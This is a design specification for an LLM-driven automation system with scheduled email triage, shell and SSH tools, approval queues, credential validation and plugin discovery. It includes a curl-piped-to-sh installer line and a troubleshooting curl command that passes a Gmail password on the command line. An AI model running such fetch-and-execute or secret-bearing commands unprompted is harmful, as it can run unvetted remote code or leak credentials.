# AI Assistant 2 – Automation System Design

## 1. Executive Summary

The AI Assistant 2 Automation System transforms the existing AI assistant application into an intelligent automation platform that autonomously manages recurring digital tasks. This system addresses the user's challenge of staying on top of digital inputs (emails, server maintenance, project tracking) while preserving time for high-value activities.

**Key Innovation**: The system uses AI reasoning with tool-based execution rather than pre-programmed handlers, allowing the AI to learn and adapt automation strategies over time. Combined with a comprehensive evaluation framework, this ensures automation quality improves continuously through versioned prompt engineering.

**Hardware Considerations**: The design respects single-GPU constraints by implementing time-sliced scheduling that prevents resource contention between AI workloads and other GPU-intensive applications.

**Benefits**:
- Reduces manual overhead for routine tasks (email triage, server updates, project syncing)
- Provides complete audit trail of all AI actions and decisions
- Enables continuous improvement through multi-modal evaluation (human, AI, structured, executable tests)
- Maintains user control through natural language chat interface and quick actions

---

## 2. Objectives

### Primary Goals

1. **Automate Routine Digital Tasks**
   - Success criteria: 80%+ of routine emails correctly categorized and archived
   - Success criteria: Server security patches applied within 24 hours of availability
   - Success criteria: Project status aggregated daily from multiple sources

2. **Respect Hardware & Attention Constraints**
   - Success criteria: Zero conflicts between AI automation and user GPU usage
   - Success criteria: User can disable AI automation instantly via single action
   - Success criteria: One task executes at a time per schedule

3. **Enable AI Learning & Improvement**
   - Success criteria: Automation instructions can be updated without code deployment
   - Success criteria: Each automation version has measurable quality metrics
   - Success criteria: AI stores and retrieves successful procedures from knowledge base

4. **Maintain Complete Auditability**
   - Success criteria: Every AI action linked to triggering event (schedule or user request)
   - Success criteria: Full history preserved with immutable append-only log
   - Success criteria: Corrections tracked without losing original records

5. **Provide Flexible Interaction**
   - Success criteria: User can trigger any automation on-demand via chat
   - Success criteria: Chat interface provides context-aware responses about past activities
   - Success criteria: Quick actions enable common operations with single click

---

## 3. System Requirements

### 3.1 Software Dependencies

**Required**:
- **Python**: 3.10+ (v1.0), 3.11+ (v1.2 for PEP 723 single-file tools)
- **uv**: Package manager for fast dependency installation (required for tool isolation)
  - Installation: `curl -LsSf https://astral.sh/uv/install.sh | sh` or `pip install uv` or `brew install uv`
  - Version: 0.1.0+
  - Rationale: 50-100x faster than pip, consistent with project tooling, required for per-tool venv creation
- **SQLite**: 3.35+ (for FTS5 and JSON functions)
- **Node.js**: 18+ (for frontend build)

**Optional**:
- **Ollama**: For local LLM inference (alternative: OpenAI/Anthropic APIs)
- **Git**: For tool installation via `add-tool` command

### 3.2 Startup Validation

System SHALL validate required dependencies on startup and fail fast with actionable error messages.

**StartupValidator Implementation**:
- **Python Version Check**: Validate Python 3.10+ is installed, provide upgrade instructions if not
- **uv Availability Check**: Validate uv package manager is available via command line, provide installation instructions for macOS/Linux/Windows if missing
- **SQLite Version Check**: Validate SQLite 3.35+ via Python's sqlite3 module (for FTS5 support), suggest upgrading Python or system SQLite if outdated
- **Failure Behavior**: Collect all validation errors, print numbered list to stderr with actionable messages, exit with code 1 if any validation fails
- **Success Behavior**: Print success message and continue with server startup

**Integration Point**: Called in main.py or server.py startup before initializing any services.

**Error Handling**:
- Missing `uv`: Show installation commands for macOS, Linux, Windows
- Old Python: Show upgrade instructions with link to python.org
- Old SQLite: Suggest upgrading Python (includes newer SQLite) or system SQLite

---

## 4. Scope

### In Scope

**Core Functionality**:
- Cron-based scheduling system with single-task execution
- AI agent with tool-based execution (email, SSH, GitHub, Jira, Obsidian, KB tools)
- Unified activity tracking (messages + task executions in shared model)
- Full-text search across all activities and conversations
- Chat interface with streaming responses and context awareness
- Quick actions for common tasks

**Automation Types**:
- Email triage (AI generates summaries, recommends labels, identifies duplicates/spam - user approves actions)
  - **Attachment Handling**: Email tools do NOT download attachments; users must access via email client for large files
  - **Size Limits**: Email metadata and body text only (subject, sender, body preview up to 10KB)
- Server updates (security patches, health checks, rollback on failure)
- Project sync (aggregate from GitHub, Jira, Obsidian)
- Knowledge management (link related documents, surface insights)
- Custom workflows (user-defined with natural language instructions)

**Evaluation Framework**:
- Human judge evaluations (subjective scoring + feedback)
- AI judge evaluations (LLM scoring with rubrics)
- Structured output validation (JSON/XML/CSV schema compliance)
- Executable output testing (deferred to v1.1+, requires user approval)

**Data Management**:
- SQLite database for all persistence (activities, schedules, automations, evaluations)
- Closure table for activity relationships
- FTS5 for full-text search
- Immutable activity log with correction redirection

### Out of Scope (Explicitly Deferred)

**For Future Releases**:
- Task chains (sequential automation dependencies)
- Mobile native app (mobile web access only in v1)
- Multi-user support (single-user system initially)
- Real-time collaboration features
- Advanced metrics dashboard (basic evaluation UI only in v1)
- Integration with calendar systems
- Notification system (UI-only status in v1)

**Not Planned**:
- Voice interface
- Offline mode
- Third-party plugin marketplace
- Distributed/multi-machine execution

---

## 5. Requirements

### 4.1 Functional Requirements

**FR-1: Scheduling & Execution**
- FR-1.1: System SHALL support cron expression-based scheduling
- FR-1.2: System SHALL execute only one activity at a time (applies to all activity types: scheduled automations, tool reloads, on-demand requests)
- FR-1.3: System SHALL allow user to enable/disable schedules without code changes
- FR-1.4: System SHALL validate cron expressions before saving
- FR-1.5: System SHALL display next 3 scheduled execution times for each schedule
- FR-1.6: System SHALL skip scheduled execution if ANY activity has IN_PROGRESS status (includes automations, tool reloads, and other operations)
- FR-1.7: System SHALL log skipped executions with MISSED status and reason in activities table
- FR-1.8: System SHALL alert user after N consecutive missed executions per schedule (configurable per-schedule threshold, default: 3)
- FR-1.9: System SHALL support three notification channels: in-app (persistent), device push, and external webhook
- FR-1.10: System SHALL allow per-schedule configuration of alert severity (INFO, WARNING, CRITICAL) and enabled channels
- FR-1.11: In-app notifications SHALL persist across page reloads and require explicit user acknowledgment to dismiss
- FR-1.12: System SHALL reset consecutive miss counter for a schedule upon successful execution

**FR-2: AI-Driven Automation & LLM Integration**
- FR-2.1: System SHALL load automation instructions from database (not config)
- FR-2.2: System SHALL support per-automation LLM provider and model selection
- FR-2.3: System SHALL support Ollama, OpenAI, and Anthropic providers (MVP)
- FR-2.4: System SHALL support future LLM providers via LangChain abstraction
- FR-2.5: System SHALL query knowledge base for prior procedures before execution
- FR-2.6: System SHALL store successful procedures to knowledge base with eventual consistency to vector store
- FR-2.6a: System SHALL track Chroma sync status (PENDING, SYNCED, FAILED) for each knowledge base entry
- FR-2.6b: System SHALL retry failed Chroma syncs with exponential backoff (max 3 attempts per sync job)
- FR-2.6c: System SHALL run periodic reconciliation to detect and fix SQLite-Chroma divergence (daily)
- FR-2.7: System SHALL support versioning of automation instructions
- FR-2.8: System SHALL execute automations on-demand via chat or quick actions
- FR-2.9 (v1.1+): System SHALL support LLM function calling for tool invocation
- FR-2.10: Email tools SHALL operate in recommendation mode:
  - AI analyzes emails and generates recommendations (summaries, labels, duplicate detection, spam identification)
  - AI creates PENDING_APPROVAL activities with recommended actions
  - User reviews and approves/denies recommendations in approval queue
  - System executes only approved actions
- FR-2.11: Email recommendations SHALL include confidence scores (0-100) and reasoning for each suggested action
- FR-2.17: Each automation execution SHALL have a configurable maximum execution time (default: 5 minutes, range: 1-60 minutes)
- FR-2.18: System SHALL terminate automation execution if max_execution_time is exceeded and mark activity as FAILED with timeout reason
- FR-2.12: System SHALL support batch approval of similar email recommendations (e.g., "apply newsletters label to 15 emails")
- FR-2.13: System SHALL enforce UNIQUE(name) WHERE active=1 constraint on automations table (only one active version per name)
- FR-2.14: System SHALL track automation version used for each activity execution (automation_id and automation_version columns)
- FR-2.15: System SHALL provide API endpoint to bulk-upgrade schedules to use active automation version
- FR-2.16: System SHALL set replaced_at timestamp when creating new automation version with existing name

**FR-3: Activity Tracking**
- FR-3.1: System SHALL record all activities (messages, task executions, completions, errors) in unified table
- FR-3.2: System SHALL track activity status transitions (PENDING → IN_PROGRESS → COMPLETED/FAILED)
- FR-3.3: System SHALL link related activities via closure table
- FR-3.4: System SHALL support activity corrections via immutable append pattern
- FR-3.5: System SHALL index all activities for full-text search
- FR-3.6: System SHALL support user-initiated cancellation of IN_PROGRESS activities
- FR-3.7: System SHALL gracefully terminate cancelled activities and mark as CANCELLED status
- FR-3.8: System SHALL log cancellation timestamp and user who initiated cancellation in activity metadata

**FR-4: Chat Interface**
- FR-4.1: System SHALL stream AI responses using HTTP chunked transfer encoding (Server-Sent Events or streaming response)
- FR-4.2: System SHALL load conversation history from activities table on init
- FR-4.3: System SHALL enable context-aware queries about past activities
- FR-4.4: System SHALL allow users to trigger automations via natural language
- FR-4.5: System SHALL visualize activity trees for linked tasks
- FR-4.6: System SHALL provide approval queue UI for reviewing pending actions
- FR-4.7: System SHALL support bulk approve/deny operations for multiple pending actions
- FR-4.8: System SHALL display approval context (automation name, operation details, affected resources)
- FR-4.9: System SHALL include most recent N activities in LLM context (configurable per provider: 10 for Ollama, 50 for API models)
- FR-4.10: System SHALL track token usage with tiktoken library and log to activities metadata for observability
- FR-4.11: System SHALL store only final complete response in activities.llm_response (no intermediate chunks)
- FR-4.12: Backend SHALL send SSE heartbeat events every 15 seconds as structured JSON: `data: {"type": "ping"}\n\n`
- FR-4.13: Frontend SHALL close SSE connection if no message (ping or data) received for 30 seconds
- FR-4.14: Frontend SHALL ignore heartbeat ping messages (not render to UI)

**FR-5: Evaluation System**
- FR-5.1: System SHALL support creation of test cases with input/expected output
- FR-5.2: System SHALL execute test cases on demand or after automation runs
- FR-5.3: System SHALL support human judge evaluations with 1-10 scoring
- FR-5.4: System SHALL support AI judge evaluations with rubric-based scoring
- FR-5.5: System SHALL validate structured outputs against JSON/XML schemas
- FR-5.6 (v1.1+): System SHALL execute generated code for testing with user approval
- FR-5.7: System SHALL aggregate evaluation scores per automation version
- FR-5.8: System SHALL display evaluation history and regression alerts
- FR-5.9: System SHALL support AI-powered failure analysis of FAILED activities
- FR-5.10: Failure analysis SHALL generate suggested fixes for automation instructions
- FR-5.11: Failure analysis SHALL only run when required services are available (LLM, tool APIs)
- FR-5.12: System SHALL queue failure analysis jobs to run after service restoration if APIs were unavailable

**FR-6: Tool System (Built-in & User-Extensible)**
- FR-6.1: System SHALL auto-discover built-in tools on startup from `backend/src/tools/default/`
- FR-6.2: System SHALL auto-discover user tools on startup from `~/.ai_assistant/tools/`
- FR-6.3: System SHALL validate each tool implements LangChain Tool interface
- FR-6.4: System SHALL support multiple instances of same tool type (e.g., multiple Gmail accounts)
- FR-6.5: System SHALL expose all tools to LLM for function calling
- FR-6.6: System SHALL reload tools at runtime via API without server restart
- FR-6.7: System SHALL provide `add-tool` CLI command for git clone or template creation
- FR-6.8: System SHALL provide built-in tools: gmail, git, shell, file operations
- FR-6.9: System SHALL support user tools as single files, packages, or MCP adapters
- FR-6.10: System SHALL provide knowledge base tools (store/retrieve procedures)
- FR-6.11: System SHALL treat tool reload as an activity with IN_PROGRESS status during execution
- FR-6.12: System SHALL skip scheduled automations during tool reload (logged as MISSED per FR-1.7)
- FR-6.13: System SHALL measure token count for each tool definition on load using tiktoken
- FR-6.14: System SHALL implement agent-driven tool selection via planning phase before each context window
- FR-6.15: System SHALL enforce max_tool_definition_tokens budget (500 for Ollama, 2000 for API models)
- FR-6.16: Agent SHALL select tools based on task requirements within token budget during planning phase
- FR-6.17: System SHALL re-evaluate tool selection per context window as task needs evolve
- FR-6.18: System SHALL log unauthorized tool access attempts and provide feedback to LLM without failing execution
- FR-6.19: System SHALL include tools_available field in automations as optional starting hint (not enforcement)
- FR-6.20: System SHALL implement atomic venv creation using temp directory followed by rename on success
- FR-6.21: System SHALL store venv creation status (NOT_CREATED, CREATING, READY, FAILED, CORRUPTED) in tool metadata
- FR-6.22: System SHALL retry failed venv creation with exponential backoff (3 attempts, max 5s backoff)
- FR-6.23: System SHALL provide `rebuild-tool-venv <tool-name>` CLI command for manual venv recovery
- FR-6.24: System SHALL verify venv integrity on tool load (check for Python executable and required files)
- FR-6.25: System SHALL print config template to terminal after successful tool installation with example values
- FR-6.26 (v1.1+): System MAY support `--auto-configure` flag to automatically append config template to config.yaml

**FR-6 Implementation Phases** (see section 6.2):
- **Phase 1 (V1.0)**: Package tools with isolated per-tool venv using `uv`
- **Phase 2 (V1.1)**: MCP adapters with subprocess isolation (stdio communication)
- **Phase 3 (V1.2)**: PEP 723 single-file tools with `uv run` (Python 3.11+ only)

**FR-7: Tool Dependency Isolation** (Phased)
- FR-7.1 (V1.0): System SHALL create isolated `.venv` per package tool on first load using atomic creation pattern
- FR-7.2 (V1.0): System SHALL use `uv` for fast, reproducible dependency installation
- FR-7.3 (V1.0): System SHALL persist venv creation status in tool metadata for error recovery
- FR-7.4 (V1.1): System SHALL run MCP adapters in isolated subprocesses with stdio communication
- FR-7.5 (V1.2): System SHALL support PEP 723 single-file tools with `uv run` isolation

**FR-8: Credential Management & Validation**
- FR-8.1: System SHALL validate tool credentials on first use (lazy validation)
- FR-8.2: System SHALL log warnings on startup for missing credential environment variables
- FR-8.3: System SHALL retry failed credential validation with exponential backoff (max 3 attempts, max 5s per retry, 10s total timeout)
- FR-8.4: System SHALL implement circuit breaker that skips validation after 3 consecutive startup failures
- FR-8.5: System SHALL provide credential test endpoint for manual validation
- FR-8.6: System SHALL store credential validation status in tool metadata (activities table)
- FR-8.7: System SHALL log actionable error messages for credential failures (which credential, remediation steps)
- FR-8.8: System SHALL validate approval action integrity via SHA256 hash before executing approved commands
- FR-8.9: System SHALL reject and log any approval execution attempts where hash verification fails

### 4.2 Non-Functional Requirements

**NFR-1: Performance**
- NFR-1.1: Chat interface SHALL display streaming response within 500ms of first token
- NFR-1.2: Full-text search SHALL return results within 2 seconds for queries across 10,000+ activities
- NFR-1.3: Schedule trigger SHALL fire within 5 seconds of cron expression match
- NFR-1.4: Activity creation SHALL complete within 100ms
- NFR-1.5: Tool discovery on startup SHALL complete within 5 seconds for up to 20 tools
- NFR-1.6: Database queries SHALL use proper indexes to maintain sub-100ms response times
- NFR-1.7: FTS index updates SHALL complete within 30ms per activity using external content tables (40% faster than standard FTS5)

**NFR-2: Reliability**
- NFR-2.1: System SHALL recover from LLM API failures without data loss
- NFR-2.2: System SHALL log all tool execution errors to activities table
- NFR-2.3: Database writes SHALL use transactions to ensure atomicity
- NFR-2.4: System SHALL validate all user inputs before database writes
- NFR-2.5: Invalid tools SHALL log warnings but not block startup
- NFR-2.6a: Knowledge base writes SHALL complete successfully even if Chroma vector store is unavailable
- NFR-2.6b: System SHALL provide degraded mode (FTS-only search) when Chroma sync is failing
- NFR-2.6: System SHALL validate required dependencies (Python 3.10+, uv, SQLite 3.35+) on startup and fail fast with actionable error messages
- NFR-2.7: API-based tools SHALL fail gracefully on network loss and record failure in activities table with network error details
- NFR-2.8: System SHALL not retry network failures automatically (may succeed with stale/incorrect data); user must manually retry after connectivity restored

**NFR-3: Security**
- NFR-3.1: API keys and credentials SHALL be stored in environment variables (not config files)
- NFR-3.2: Shell commands SHALL require user approval before execution unless whitelisted
- NFR-3.3: System SHALL execute shell commands using subprocess with shell=False by default to prevent injection
- NFR-3.4: System SHALL parse whitelisted commands as structured {executable, args} not raw strings
- NFR-3.5: System SHALL display canonical command path and arguments in approval UI (e.g., "/usr/bin/git status" not "git status")
- NFR-3.6: System SHALL log all command executions with full command details (executable path, args, cwd, exit code, stdout/stderr)
- NFR-3.7: SSH connections SHALL use key-based authentication only
- NFR-3.8: System SHALL validate cron expressions to prevent resource abuse
- NFR-3.9: System SHALL detect and prevent execution of tampered approval actions through cryptographic hash verification

**NFR-4: Usability**
- NFR-4.1: Cron builder UI SHALL generate valid expressions without manual syntax knowledge
- NFR-4.2: Automation instruction editor SHALL provide guidance on effective prompt structure
- NFR-4.3: Evaluation results SHALL include actionable recommendations for improvement
- NFR-4.4: Activity tree visualization SHALL show hierarchical relationships clearly

**NFR-5: Maintainability**
- NFR-5.1: Adding new tools SHALL require only Python function registration (no schema changes)
- NFR-5.2: Automation instruction changes SHALL not require application restart
- NFR-5.3: Database schema SHALL use triggers to maintain FTS and closure table sync
- NFR-5.4: All configuration SHALL use Pydantic models with validation

**NFR-6: Scalability**
- NFR-6.1: System SHALL handle 100+ automation executions per day
- NFR-6.2: System SHALL support 10+ concurrent tool calls during single automation
- NFR-6.3: Activity table SHALL efficiently query with 50,000+ records
- NFR-6.4: Closure table SHALL support 10-level deep activity trees
- NFR-6.5: Tool reload operations SHALL complete within 30 seconds under normal conditions
- NFR-6.6: Closure table inserts SHALL complete in <5ms for trees up to 10 levels deep

---

## 6. Key Design Principles

1. **Immutability for Audit**: Original records never deleted; corrections append new records
2. **Single Responsibility**: One activity at a time (automations, tool reloads, etc.) to respect hardware constraints
3. **Unified Model**: Messages and task outputs share same data structure
4. **Context Preservation**: Closure table enables "what triggered this" queries
5. **Search-First**: Full-text indexing on all interactions
6. **Status Tracking**: Clear progression (PENDING → IN_PROGRESS → COMPLETED/FAILED)
7. **Configuration-Driven**: All settings read from config, no hardcoding
8. **Append-Only Pattern**: Complete history, no data loss, correction redirection
9. **Evaluation-Driven Development**: Test cases + rubrics ensure prompt quality
10. **Multi-Modal Evaluation**: Support human, AI, structured, and executable tests
11. **AI Reasoning Over Scripts**: Tools provide capabilities; AI decides how to use them
12. **Learn From Success**: Store effective procedures in knowledge base for reuse

---

## 7. Design

### 6.1 Architecture Changes

#### Current State
- Existing backend: FastAPI + ConfigManager + LoggingManager
- Server-side rendered templates 
- No automation capabilities
- No activity tracking
- No AI agent integration

#### Proposed Architecture

**New Backend Services**:
1. **ScheduleManager** - APScheduler integration, loads from SQLite, triggers automations
2. **ActivityManager** - CRUD operations on activities table, closure table management, FTS queries
3. **AI Agent** - LLM integration with tool calling, knowledge base queries, procedure storage
4. **Tool Registry** - Loads and manages both built-in and user tools, auto-discovers tools, exposes LangChain tools to LLM
5. **Tool Loader** - Discovers tools on startup, validates LangChain interface, handles tool reloading
6. **Evaluation Engine** - Test case execution, scoring (human/AI/structured/executable), results aggregation

**New Backend Controllers**:
1. **Activities API** (`/api/v1/activities/*`) - Search, tree queries, corrections, approval queue, cancellation
2. **Chat API** (`/api/v1/chat/*`) - Streaming message interface via HTTP chunked transfer
3. **Schedules API** (`/api/v1/schedules/*`) - CRUD for schedule management
4. **Automations API** (`/api/v1/automations/*`) - CRUD with versioning
5. **Evaluations API** (`/api/v1/evaluations/*`) - Test cases, rubrics, execution

**Approval Queue API Endpoints**:
- `GET /api/v1/activities/pending-approval` - List all pending approvals with context
- `POST /api/v1/activities/{id}/approve` - Approve pending action (verifies hash, executes tool, creates child activity)
- `POST /api/v1/activities/{id}/deny` - Deny pending action (marks as DENIED)
- `POST /api/v1/activities/bulk-approve` - Approve multiple actions (body: {ids: []})
- `POST /api/v1/activities/bulk-deny` - Deny multiple actions (body: {ids: []})

**Approval Integrity Verification**:
All approval endpoints verify action integrity before execution:
1. Load `approval_action` JSON and `approval_action_hash` from database
2. Compute SHA256 hash of canonical JSON (sorted keys, no whitespace)
3. Compare computed hash with stored hash
4. If mismatch: reject request, log tamper attempt, mark activity as INVALID
5. If match: proceed with execution

**Component Interactions**:

```mermaid
graph TD
    User[User] --> Frontend
    Frontend --> FastAPI[FastAPI Controllers]
    FastAPI --> Services
    Services --> SQLite[(SQLite)]
    FastAPI --> LLM[LLM via AI Agent]
    LLM --> ToolRegistry[Tool Registry]
    ToolRegistry --> External[External Systems<br/>Email, SSH, GitHub, etc.]
```

**Key Architectural Patterns**:
- **Dependency Injection**: ConfigManager provided via FastAPI Depends()
- **Event-Driven**: APScheduler triggers ScheduleManager on cron match
- **Tool-Based AI**: LLM function calling with tool registry schema
- **Immutable Log**: Append-only activities table with redirection pattern

#### Integration Points

**With Existing System**:
- Reuses ConfigManager for tool credentials
- Reuses LoggingManager for application logs (separate from activity tracking)
- Extends existing FastAPI app with new routers
- Adds new database (SQLite) alongside existing config system

**Tool Discovery & Loading**:
- **Startup**: Auto-discovers built-in tools (`backend/src/tools/default/`) and user tools (`~/.ai_assistant/tools/`)
- **Validation**: Validates each tool implements LangChain Tool interface
- **Runtime Reload**: API endpoint to reload tools without server restart
- **Config Binding**: Each tool instance binds to config parameters (environment variables for credentials)

**With External Services** (via Tool Implementations):
- Email: IMAP/SMTP tools (multiple instances for different accounts)
- Shell: Local command execution tool
- Git: Repository operations tool
- LLM: Configurable provider (Ollama by default)

---

### 6.2 Configuration Changes

#### New Configuration Sections

**Database Config** (`backend/src/config/models/database.py`):
The `database` section organizes all database-related configurations. This structure allows for multiple database types to coexist (SQLite, vector databases, etc.) in a clear, organized manner.

- **sqlite**: SQLite database configuration (nested)
  - **file_path**: SQLite database file location (default: "./data/ai_assistant.db")
  - **create_on_missing**: Boolean to automatically create database if it doesn't exist (default: true)
  - Supports special value ":memory:" for in-memory databases

Future database types (e.g., Chroma vector DB, PostgreSQL) will be added as additional nested configurations under the `database` section.

**Tools Config** (`backend/src/config/models/tools.py`):
Tools are configured as a list, where each tool includes:
- **id**: Unique identifier for the tool instance
- **type**: Tool type (gmail, shell, git, or custom types)
- **enabled**: Boolean to enable/disable the tool
- **config**: Tool-specific configuration object

**Gmail Tool Configuration** (built-in tool supporting multiple instances):
- IMAP/SMTP server hostnames and ports
- Credential environment variable names (username_env, password_env)
- max_fetch_limit: Maximum emails to fetch per request (default: 50)
- operation_mode: "recommend" (AI suggests actions) or "execute" (AI performs actions, requires approval per FR-2.10)
- recommendation_types: List of enabled recommendation types ["summary", "labels", "duplicates", "spam"]
- confidence_threshold: Minimum confidence (0-100) to include in recommendations (default: 60)
- batch_similar: Group similar recommendations for efficient review (default: true)

**Gmail Work Account** (different instance, same tool type):
- Same IMAP/SMTP configuration as personal account
- Different credential environment variables (GMAIL_WORK_USER, GMAIL_WORK_PASSWORD)
- Independent instance allows separate rate limiting and settings

**Shell Tool Configuration** (built-in):
- timeout_seconds: Maximum command execution time
- require_approval: Boolean requiring user approval before executing commands
- use_shell: Boolean to enable shell interpretation (default: false, uses subprocess with shell=False for safety)
- whitelisted_commands: List of command specifications that bypass approval:
  - Format: {"executable": "git", "args": ["status"], "cwd_pattern": ".*"} for exact match
  - Format: {"executable": "npm", "args_pattern": "^(test|run (build|dev))$"} for pattern match
  - Legacy format: "git status" (converted to structured format internally)
- show_full_command: Boolean to display canonical command path in approval UI (default: true)

**Git Tool Configuration** (built-in):
- default_repos: List of repository paths to search (e.g., ["~/projects/main", "~/projects/tools"])

**User Tool Examples**:
- **Obsidian MCP Adapter**: vault_path (location of Obsidian vault), auto_link_threshold (similarity score for automatic linking, default: 0.8)
- **Finance API Tool**: api_key_env (environment variable for API key), base_url (API endpoint), rate_limit (max requests per time period)

**Schedule Config Structure**:

Schedule behavior is configured with the following settings:
- **auto_load_on_startup**: Boolean to automatically load schedules from database on startup
- **default_timezone**: Default timezone for schedule display (UTC recommended)
- **overlap_policy**: How to handle overlapping executions - "skip" (v1.0), "queue" (v1.1+), "cancel" (not recommended)
- **default_alert_threshold**: Default number of consecutive missed executions before alerting (default: 3, per-schedule override available)
- **default_alert_severity**: Default alert severity - "INFO", "WARNING", "CRITICAL" (default: WARNING, per-schedule override available)
- **default_alert_channels**: Default list of enabled channels - ["in_app", "push", "webhook"] (per-schedule override available)

**Notifications Config Structure**:

Notification delivery is configured with the following settings:

**In-App Notifications**:
- **enabled**: Boolean to enable persistent in-app notifications (default: true)
- **max_unread**: Maximum unread notifications before auto-archiving oldest (default: 50)
- **auto_dismiss_after_days**: Days before INFO notifications auto-dismiss (default: 7, WARNING/CRITICAL never auto-dismiss)

**Device Push Notifications**:
- **enabled**: Boolean to enable web push notifications (default: true)
- **vapid_public_key**: VAPID public key for push service
- **vapid_private_key_env**: Environment variable containing VAPID private key

**External Webhook**:
- **enabled**: Boolean to enable webhook notifications (default: false)
- **url**: Webhook endpoint URL (supports any HTTP-based notification service)
- **method**: HTTP method for webhook requests - "POST", "GET", "PUT", "DELETE" (default: POST)
- **headers**: Dictionary of additional HTTP headers to include in webhook requests (e.g., for authentication)
- **payload_type**: Format of webhook payload - "json", "form", "text" (default: json)
- **payload_template**: Dictionary defining the webhook payload structure with property definitions:
  - Each property has: `default` (optional default value), `description`, `required` (boolean), `options` (optional list of allowed values)
  - Allows dynamic payload construction based on notification data
- **Note**: This flexible configuration supports any HTTP-based notification service (Pushover, Slack, Discord, PagerDuty, custom endpoints, etc.)

**Credentials Config Structure** (`backend/src/config/models/credentials.py`):

**Validation Settings**:
- **strategy**: When to validate credentials - "lazy" (on first use), "startup" (fail-fast), "disabled"
- **warn_on_missing**: Boolean to log warnings for missing env vars on startup (non-blocking)
- **retry_attempts**: Number of retry attempts for transient failures (default: 3)
- **retry_backoff_base_seconds**: Base duration for exponential backoff (default: 0.1)
- **retry_backoff_max_seconds**: Maximum backoff duration per retry (default: 5.0)
- **retry_total_timeout_seconds**: Total time allowed for all retries (default: 10.0)
- **cache_duration_seconds**: Duration to cache successful validations (default: 300 = 5 minutes)

**Circuit Breaker Settings**:
- **enabled**: Boolean to enable circuit breaker (default: true)
- **failure_threshold**: Consecutive failures before opening circuit (default: 3)
- **reset_timeout_seconds**: Time before attempting validation again after circuit opens (default: 3600 = 1 hour)
- **half_open_max_attempts**: Attempts allowed in half-open state (default: 1)

**Backoff Calculation**: `min(retry_backoff_base_seconds * 2^attempt, retry_backoff_max_seconds)`
- Attempt 0: min(0.1 * 2^0, 5.0) = 0.1s
- Attempt 1: min(0.1 * 2^1, 5.0) = 0.2s
- Attempt 2: min(0.1 * 2^2, 5.0) = 0.4s
- Total: 0.7s (well under 10s timeout)

**Circuit Breaker States**:
- **CLOSED**: Normal operation, credentials validated
- **OPEN**: Too many failures, skip validation, log warning
- **HALF_OPEN**: Testing if service recovered, allow single attempt

**Keychain Integration** (v1.1+):
- **enabled**: Boolean to enable macOS Keychain integration (default: false)
- **service_name**: Keychain service identifier (default: "ai-assistant-2")

**Error Message Format**:

Clear, actionable error messages for both user and AI troubleshooting:

```
[CREDENTIAL_VALIDATION_FAILED] Gmail Tool (personal)
Tool ID: gmail-personal
Credential: GMAIL_USER
Error: Authentication failed - Invalid credentials
Attempts: 3/3 (total: 0.7s)
Circuit Breaker: OPEN (will retry in 1 hour)

⚠️  ACTION REQUIRED:
1. Verify environment variable GMAIL_USER is set: echo $GMAIL_USER
2. Verify environment variable GMAIL_PASSWORD is set (without revealing): [ -z "$GMAIL_PASSWORD" ] && echo "Missing" || echo "Set"
3. Test credentials manually: curl -u $GMAIL_USER:$GMAIL_PASSWORD https://imap.gmail.com
4. Check Gmail account settings: App Passwords may be required for 2FA accounts
5. Restart application after fixing: ai-assistant restart

📋 Troubleshooting Guide: https://docs.ai-assistant.dev/credentials/gmail

💡 AI Context: This tool will be unavailable until credentials are fixed. Email recommendations cannot be generated.
```

**Circuit Breaker Workflow**:


```mermaid
stateDiagram-v2
    [*] --> CLOSED: Initial state
    CLOSED --> CLOSED: Validation success
    CLOSED --> OPEN: 3 consecutive failures
    OPEN --> HALF_OPEN: Reset timeout (1 hour)
    HALF_OPEN --> CLOSED: Validation success
    HALF_OPEN --> OPEN: Validation failure
    
    note right of CLOSED
        Normal operation
        Validate credentials
    end note
    
    note right of OPEN
        Skip validation
        Log warning only
        Tool unavailable
    end note
    
    note right of HALF_OPEN
        Test recovery
        Single attempt
    end note
```

**Key Configuration Principles**:
- Credentials from environment variables (never in config files)
- Automation instructions in database (not config)
- Tool parameters in config, tool implementations in code
- No hardcoded connection strings or API keys

#### Configuration Loading Flow
1. Application starts → ConfigManager loads YAML
2. ScheduleManager reads schedule config
3. Connects to SQLite database
4. Loads active automations from DB
5. Registers cron jobs with APScheduler
6. Tool Loader discovers and validates all tools (built-in and user)
7. **Check for missing credential environment variables → Log warnings (non-blocking)**
8. Tool Registry initializes tool instances with config parameters
9. **Credentials validated lazily on first tool use (retry with backoff on failure)**
10. Tools exposed to LLM agent for function calling

#### Tool System Architecture

**Directory Structure**:
```
backend/src/tools/
├── registry.py          # Tool Registry: loads, manages, exposes tools
├── loader.py            # Tool Loader: auto-discovery and validation
├── __init__.py
└── default/             # Built-in tools
    ├── __init__.py
    ├── gmail.py         # Email tool (LangChain Tool)
    ├── git.py           # Git operations
    ├── shell.py         # Command execution
    └── file.py          # File operations

~/.ai_assistant/tools/  # User-installed tools
├── obsidian_mcp/        # Git-cloned MCP adapter
│   ├── .git/
│   ├── main.py
│   ├── requirements.txt
│   └── README.md
├── finance_tool/        # Custom package (user-developed)
│   ├── __init__.py
│   ├── main.py
│   ├── finance_api.py
│   └── README.md
└── researcher.py        # Single-file tool
```

**Tool Discovery Process**:
1. On application startup, Tool Loader scans `backend/src/tools/default/`
2. Scans `~/.ai_assistant/tools/` for user tools
3. For each directory/file: imports module and validates it exports LangChain Tool(s)
4. Tools that don't validate log warnings but don't block startup
5. Tool Registry builds catalog with all discovered tools

**Tool Development Pattern**:
All tools (built-in and user) implement LangChain Tool interface:
- Import Tool and tool decorator from langchain.tools module
- Use @tool decorator for function-based tools with typed parameters, docstrings, and return types
- Or define class-based tools inheriting from Tool base class with name and description attributes
- Tool functions include comprehensive docstrings describing purpose, arguments (with types), and return values
- Implementation follows LangChain Tool interface conventions for seamless AI agent integration

**Runtime Tool Management**:
- API endpoint: `POST /api/v1/tools/reload` - Reload all tools without restart
- API endpoint: `GET /api/v1/tools` - List available tools with schemas
- Config changes: Update `config.yaml` → Call `/reload` endpoint → Tools reinitialize
- **Concurrency Note**: Tool reload creates an activity with IN_PROGRESS status, preventing concurrent automation execution (see FR-1.2, FR-1.6, FR-6.11)

**CLI Tool Installation**:
The `add-tool` command supports three modes:
1. **Git Clone Mode**: Pass a git URL (containing `.git` or `github.com`) to clone repository to user tools directory
2. **Package Template Mode**: Use `--template package` flag to create directory structure with pyproject.toml
3. **Single-File Template Mode**: Use `--template file` flag to create single Python file with PEP 723 header

The `add-tool` command workflow:
1. Detects if argument is a git URL (contains `.git` or `github.com`)
2. If git: Clone to `~/.ai_assistant/tools/{repo-name}`
3. If not: Create template directory/file structure
